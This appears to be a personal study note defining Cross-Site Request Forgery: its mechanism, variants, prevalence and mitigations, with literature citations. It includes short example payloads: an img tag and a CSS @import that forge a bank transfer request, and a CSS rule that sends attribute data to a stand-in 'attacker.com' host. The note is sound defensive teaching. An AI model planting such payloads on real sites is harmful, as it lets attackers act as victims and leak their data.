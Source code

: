 ```yaml
---
ID: 2025-02-03-15:11
tags:
  - "#definition"
  - cyberSecurity
  - clientSideAttacks
  - CSFR
---
```

Also known as XSRF, Confused Deputy, one-click-attack, Session Riding [[(Maes, Heyman, et al., 2009)]]

## Definition

Cross-Site Request Forgery (CSRF) is an attack that forces an authenticated user to perform an unwanted action on a website they are logged in to, without their knowledge or consent
- This is possible exploiting authentication cookies or [[sessions token]] of the victim [[(Tkachenko et al., 2024)]]
- ==Many websites trust requests from an authenticated browser, without checking whether the user actually intended them==

Even if is called Cross-Site Request Forgery, technically the CSRF attack can be executed withing the same domain, due to a [[XSS (cross site scripting)]] vulnerability or when multiple users can host a web site within the same domain (e.g., universities) [[(Maes, Heyman, et al., 2009)]]

### CSRF Mechanism

- The user is logged into a legitimate website (e.g., bank.com) and remains authenticated while browsing the internet[^1]. This website must use implicit authentication
- An attacker tricks the user into visiting *another* malicious website[^2]
- The malicious website executes code that sends an HTTP request to the previous legitimate website (bank.com), exploiting the user's active session. The HTTP request ==will automatically attach the session cookie, therefore the attacker does not have even to know it== (unless [[SameSite cookie]] are activate, which is only true in Chrome by now)
- Since the user's browser is still authenticated, the legitimate website accepts the request as valid, performing the fraudulent action on behalf of the user.

### How can the attacker know what HTTP request to send?

The hacker has to know pretty well the API structure of the target website in order to make the right HTTP request that will, for example, execute an unwanted transaction. This is possible because:
- he is using the website `bank.com` himself, so he can see what API are used
- he has reverse engineered the website's API structure
- he has access to technical documentation of the target website 
- he exploits common pattern such as `POST /update_profile`
- he has access to company documentation, emails, or public discussion forums [[(Felsch, Heiderich, et al., 2015)]]

The attack does not even require a JavaScript snippet to be executed. If the server does not check the type of request, is it technically possible to execute a CSRF using GET request implicitly defined in:

- HTML, via  `<img>`, or `<a>` tags [[(Felsch, Heiderich, et al., 2015)]]

```html
<img src="https://banca.com/transfer?amount=5000&to_account=123456">
```

- CSS, using HTML attributes as source of dynamic values [[(Maes, Heyman, et al., 2009)]]

```css
/* it will execute a GET request with parameters */
div[secret-data] {
    background-image: url("https://attacker.com/log?data="attr(secret-data));
}
```

- using the CSS `@import` statement

```css
@import url("https://banca.com/transfer?amount=5000&to_account=123456");
```

### CSRF variants

**Login CSRF** [[(Trampert, Stock, et al., 2023)]]
The attacker forces the victim to log into the attacker’s account on some service. While this may sound counterintuitive initially, it allows the attacker to track their victim’s activities, e.g., following their search history, since that history is now tied to the attacker’s account.

**Reflected CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a reflected CSRF attack, the injected payload is hosted in a web page *other* than a trusted website page. Thus, a victim is exposed to an attack when he logs on to a trusted website and browse to a different website simultaneously (two browsers tabs are therefore open)

**Stored CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a stored CSRF attack, the payload is present as part of a webpage downloaded from a trusted website. These can be found in blogs, forums, and message boards, due to an XSS vulnerability.

### Risks and consequences

Common CSFR includes:
- changing user's credentials, making the account unusable for the user and stealing his identity
- sending unwanted transactions

### Prevalence

Among 5,000 randomly selected scan targets of HTTP requests by Acunetix in 2020, 36% were found vulnerable to CSRF attacks [[(Ramadan, Osama, et al., 2024)]]

### Mitigation techniques

**SOP (same-origin policy)**
 [[SOP (Same-Origin Policy)]] is the first layer of protection, preventing malicious script to directly read cookies or access the DOM of other websites, but it does not prohibit an attacker to launch any arbitrary request to a trusted website [[(Shahriar, Zulkernine, et al., 2010)]]

**CSRF Token**
Using [[CSRF (cross-site request forgery) token]], which are in essence random values embedded into form fields.
- If the server does not receive the token that expects, the HTTP request is rejected

**Source verification (referrer header)**
Verifying the source of the request (original header) could be a valid mitigation strategy.
- the `referrer` header contains the domain address of a website that initiates a request
- it has been proposed as a solution, but it carries privacy concerns, and therefore is often suppressed by browsers
- The `origin` header is more considerate of privacy but not well supported [[(Pelizzi, Sekar, et al., 2011)]]

**Other mitigation strategies**
- limiting HTTP request methods
- using [[SameSite cookie]] [[(Saleh, Malkawi, et al., 2024)]]
- closing all the tabs except for the one you are using may be an effective mitigation strategy, but
	1. the website you are visiting is vulnerable to XSS, a request may be executed even in the same domain
	2. if you landed on a malicious website *before* reaching the target, malicious HTTP requests may have been hidden and then executed in the background (this can be done with a [[SW (Service Worker)]])

**Whitelisting and blacklisting of domain** [[(Shahriar, Zulkernine, et al., 2010)]]
Cross-origin policies (a whitelist of valid URLs) have been proposed, but:
- manual process that can be badly configured and that is error prone
- not scalable and has to be maintained over time
- stored CSRF are not detectable in this way (e.g., CSRF that leverage on a stored XSS and that are lunched each time a user lands to a specific part of an application)

Other client-side protections from [[(Maes, Heyman, et al., 2009)]]:
- browser extensions and content policies: RequestPolicy, Browser-Enforced Authenticity Protection (BEAP), CSRF Protector, SOMA[^3]
- client-side proxy: RequestRodeo

Usually these countermeasures monitor outgoing requests and incoming responses, and filter out implicit authentication or block cross-domain requests. Cons:
- degrading user experience
- degrading application performance
- fail to protect against GET-based CSRF

**Why not blocking all the cross-domain POST request?**
- sometimes front-end and back-end live in different domains (e.g., `example.com` is a SPA application written in Vue.js ask requests to a PHP back-end which is a completely different application hosted somewhere else)
- some web applications leverage on public APIs
- third-party services (Stripe, for payments, [[OAuth]] or [[OpenID]] for authentication) are used

---

#### See also

There are similarities between CSRF and [[XSS (cross site scripting)]]. While the XSS is a general abuse of a website leading to malicious script execution, CSRF is focused on performing actions on behalf of an unsuspecting user (see [[XSS and CSFR comparison]]).

#### References
- [[(Tkachenko et al., 2024)]]
- Included in literature review, by [[(Onukrane, Skrodelis, et al., 2023)]]
- Unsystematic and short literature review by [[(Farah, Shojol, et al., 2016)]]
- Server-side mitigation tool jCSRF, by [[(Pelizzi, Sekar, et al., 2011)]]
- Attack simulation, by [[(Saleh, Malkawi, et al., 2024)]]
- client-side defense policies, [[(Maes, Heyman, et al., 2009)]]
- server-side proxy, [[(Liu, Shen, et al., 2020)]]
- ML comparison in CSRF,  [[(Ramadan, Osama, et al., 2024)]]
- client-side detection, by [[(Shahriar, Zulkernine, et al., 2010)]]
- CSRF in embedded web server, by [[(Bojinov, Bursztein, et al., 2009)]]

[^1]: For more about authentication mechanisms and session management, see [[cookie]], [[sessions token]], [[JWT (JSON Web Token)]]

[^2]: This can be done in different forms. For example, via a [[phishing]] email, using malicious embedded image or malicious forms in a website vulnerable to [[XSS (cross site scripting)]], exploiting [[clickjacking]] or [[tabnabbing]] attacks

[^3]: A thorough description of browser policies at [[(Stamm, Sterne, et al., 2010)]]
